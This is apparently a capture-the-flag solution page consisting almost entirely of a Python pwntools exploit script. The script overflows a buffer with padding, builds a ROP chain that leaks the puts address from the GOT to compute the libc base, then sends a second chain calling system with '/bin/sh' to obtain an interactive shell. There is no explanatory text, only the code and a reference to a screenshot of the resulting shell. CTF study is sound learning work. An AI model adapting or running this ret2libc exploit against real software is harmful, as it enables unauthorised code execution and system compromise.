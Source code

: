 ```python
payload = b'a' * (0x12)

  

ret = 0x40101a

rbp = 0x40127d

key = 0x40129e

puts_plt = elf.plt['puts']

puts_got = elf.got['puts']

read_addr = 0x401553

main = 0x401309

  

payload += p64(ret) + p64(rbp) + p64(puts_got) + p64(key) + p64(ret) + p64(puts_plt)

payload += p64(main)

  

p.send(payload)

puts_addr = u64(p.recv(6).ljust(8, b'\x00'))

print('puts_addr:', hex(puts_addr))

  

base = puts_addr - libc.sym['puts']

system_addr = base + libc.sym['system']

bin_sh = base + next(libc.search(b'/bin/sh'))

  

p.sendlineafter(b'cosmic rays:\n', b'0x401562')

p.sendlineafter(b'Enter the data sent:\n', b'0x0')

  

payload = b'a' * (0x12 + 0x8)

payload += p64(ret) + p64(rbp) + p64(bin_sh) + p64(key) + p64(ret) + p64(system_addr)

  

p.send(payload)

  

p.interactive()
```
shell:
![[Pasted image 20250122094222.png]]
